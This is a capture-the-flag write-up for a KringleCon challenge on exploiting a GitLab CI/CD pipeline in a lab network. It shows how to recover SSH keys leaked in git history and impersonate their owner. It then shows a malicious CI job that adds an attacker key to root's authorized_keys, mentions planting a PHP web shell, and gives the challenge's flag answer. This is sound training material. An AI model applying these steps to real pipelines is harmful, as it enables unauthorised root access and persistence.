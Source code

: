 ```yaml
---
icon: simple/travisci
---
```


# Jolly CI/CD
**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star:<br/>
**Direct link**: [cicd terminal](https://hhc22-cicd.kringlecon.com/?&challenge=cicd&id=1a9f996e-1860-4c36-be8f-43e4fd87924d)


## Objective

!!! question "Request"
    Exploit a CI/CD pipeline. Get hints for this challenge from Tinsel Upatree in the Elfen Ring.

??? quote "Rippin Proudboot"
    Yes, hello, I'm Rippin Proudboot. Can I help you?<br/>
    Oh, you'd like to help me? Well, I'm not quite sure you can, but we shall see.<br/>
    The elves here introduced me to this new CI/CD technology. It seems quite efficient.<br/>
    Unfortunately, the sporcs seem to have gotten their grubby mits on it as well, along with the Elfen Ring.<br/>
    They've used CI/CD to launch a website, and the Elfen Ring to power it.<br/>
    Might you be able to check for any misconfigurations or vulnerabilities in their CI/CD pipeline?<br/>
    If you do find anything, use it to exploit the website, and get the ring back!


## Hints

??? hint "Switching Hats"
    If you find a way to impersonate another identity, you might try re-cloning a repo with their credentials.

??? hint "Commiting to Mistakes"
    The thing about Git is that every step of development is accessible – even steps you didn't mean to take! `git log` can show code skeletons.


## Solution

??? abstract "Welcome message"
    Greetings Noble Player,

    Many thanks for answering our desperate cry for help!

    You may have heard that some evil Sporcs have opened up a web-store selling
    counterfeit banners and flags of the many noble houses found in the land of
    the North! They have leveraged some dastardly technology to power their
    storefront, and this technology is known as PHP!

    ***gasp***

    This strorefront utilizes a truly despicable amount of resources to keep the
    website up. And there is only a certain type of Christmas Magic capable of
    powering such a thing… an Elfen Ring!

    Along with PHP there is something new we've not yet seen in our land.
    A technology called Continuous Integration and Continuous Deployment!

    Be wary!

    Many fair elves have suffered greatly but in doing so, they've managed to
    secure you a persistent connection on an internal network.

    BTW take excellent notes!

    Should you lose your connection or be discovered and evicted the
    elves can work to re-establish persistence. In fact, the sound off fans
    and the sag in lighting tells me all the systems are booting up again right now.

    Please, for the sake of our Holiday help us recover the Ring and save Christmas!

### Obtain write access to the Git repository

Start by cloning the repository mentioned by [Tinsel Upatree](o6.md) using `git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git` and taking a look at the commit history. Git repositories keep a permanent log of all changes, including mistakes like the one Tinsel made as they were explaining their CI/CD pipeline to us. Once the repository has been cloned, change to the `wordpress.flag.net.internal.git` folder and use `git log` to print commit message details.

![Commit history](../img/objectives/o7/commit_history.png)

That *whoops* message seems to indicate someone messed up and tried to correct the problem with an update, so let's take a closer look at the previous commit to see exactly what files were changed. Use `git show abdea0ebb21b156c01f7533cea3b895c26198c98` to bring up the commit details.

??? info "Reading Git diff output"
    Git commit details include output from `git diff` which can be a little daunting to read at first. The syntax is meant to show exactly what information was added and removed from each file between different commits. Here's a [great write-up](https://levelup.gitconnected.com/what-is-git-diff-and-how-do-we-read-the-output-69f5b2036186) that can help to better understand the details of the `diff` syntax.

![Commit details](../img/objectives/o7/commit_details.png)

Looks like Tinsel accidently added their private and public SSH keys to the git repository. We can use these files to impersonate Tinsel and clone a writable copy of the repository which we can commit our own changes to. Checkout the commit containing the SSH key files (line 2), create an `.ssh` folder (line 3), copy the private `.deploy` (line 4) and public `.deploy.pub` (line 5) SSH keys, lock down the `.ssh` folder permissions (line 6), and configure a Git email and user name (lines 7-8). For the latter we use the *Author* information shown in the git log screenshots above.

```shell linenums="1" title="SSH key and Git config setup"
cd ~/wordpress.flag.net.internal
git checkout abdea0ebb21b156c01f7533cea3b895c26198c98
mkdir ~/.ssh
cp ~/wordpress.flag.net.internal/.ssh/.deploy ~/.ssh/id_ed25519
cp ~/wordpress.flag.net.internal/.ssh/.deploy.pub ~/.ssh/id_ed25519.pub
chmod -R g-rwx,o-rwx ~/.ssh
git config --global user.email "sporx@kringlecon.com"
git config --global user.name "knee-oh"
```

Leveraging what we learned in [Objective 5](o5.md), we can now convert the repository HTTP URL to its SSH counterpart and clone a fresh copy using `git clone git@gitlab.flag.net.internal:rings-of-powder/wordpress.flag.net.internal.git`.

![Re-clone](../img/objectives/o7/re-clone.png)


### Exploit the CI/CD pipeline

Taking a closer look at the [`.gitlab-ci.yml`](https://docs.gitlab.com/ee/ci/yaml/gitlab_ci_yaml.html) configuration file shows a `deploy-job` entry which leverages `rsync` to copy any changes from *gitlab.flag.net.internal* to *wordpress.flag.net.internal* each time a commit is pushed to the Git repository.

```yaml linenums="1" title=".gitlab-ci.yml - deploy-job"
deploy-job:
  stage: deploy
  environment: production
  script:
    - rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy"
      --chown=www-data:www-data -atv --delete --progress
      ./ root@wordpress.flag.net.internal:/var/www/html
```

The ability to push changes to the Git repo gives us a few options to obtain access to *wordpress.flag.net.internal*. We could have the CI/CD automation copy over a simple [PHP web shell](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985) and use [cURL](https://curl.se/) to call the web shell and remotely execute commands on the host. A slightly more robust solution is to leverage the automation pipeline to add our public SSH key to the *root* user's `authorized_keys` file which will grant us the ability to SSH into the web server with maximum privileges.

First, copy the newly obtained `~/.ssh/id_ed25519.pub` file to `~/wordpress.flag.net.internal/id_ed25519.pub`. The existing automation will ensure it ends up at `/var/www/html/id_ed25519.pub` on *wordpress.flag.net.internal*. Next, update the [`.gitlab-ci.yml`](../artifacts/objectives/o7/.gitlab-ci.yml) config file and add a new `copy-key-job` entry that initiates an SSH session from the Gitlab to the Wordpress host (line 4) and executes `cat` to add the contents of `/var/www/html/id_ed25519.pub` to `/root/.ssh/authorized_keys` (line 5).

```yaml linenums="1" title=".gitlab-ci.yml - copy-key-job"
copy-key-job:
  stage: deploy
  environment: production
  script:
    - ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy root@wordpress.flag.net.internal
      'cat /var/www/html/id_ed25519.pub >> /root/.ssh/authorized_keys'
```

With the `id_ed25519.pub` file copied to our locally cloned Git repository folder and a new job entry added to `.gitlab-ci.yml` everything's in place to run our exploit. All that's left is for us to commit (lines 2-3) and push our changes (line 4) to the *gitlab.flag.net.internal* GitLab server, and wait for the updated CI/CD automation to kick off.

```shell linenums="1" title="Commit and push changes"
cd ~/wordpress.flag.net.internal
git add .
git commit -m 'Adding a new SSH key'
git push
```

It might take a few seconds, but once the CI/CD automation completes its run we should be able to remotely log in to the web server using `ssh root@wordpress.flag.net.internal`. Since we're using an interactive shell as *root* we have free reign to roam around. The flag value we need to submit on our badge can be found in the `/flag.txt` file. That [ASCII art](https://en.wikipedia.org/wiki/ASCII_art) though! :heart_eyes:

![Finding the flag](../img/objectives/o7/finding_the_flag.png)

!!! done "Answer"
    oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT


## Response

!!! quote "Rippin Proudboot"
    How unexpected, you were actually able to help!<br/>
    Well, then I must apoligize for my dubious greeting.<br/>
    Us Flobbits can't help it sometimes, it's just in our nature.<br/>
    Right then, there are other Flobbits that need assistance further into the burrows.<br/>
    Thank you, and off you go.
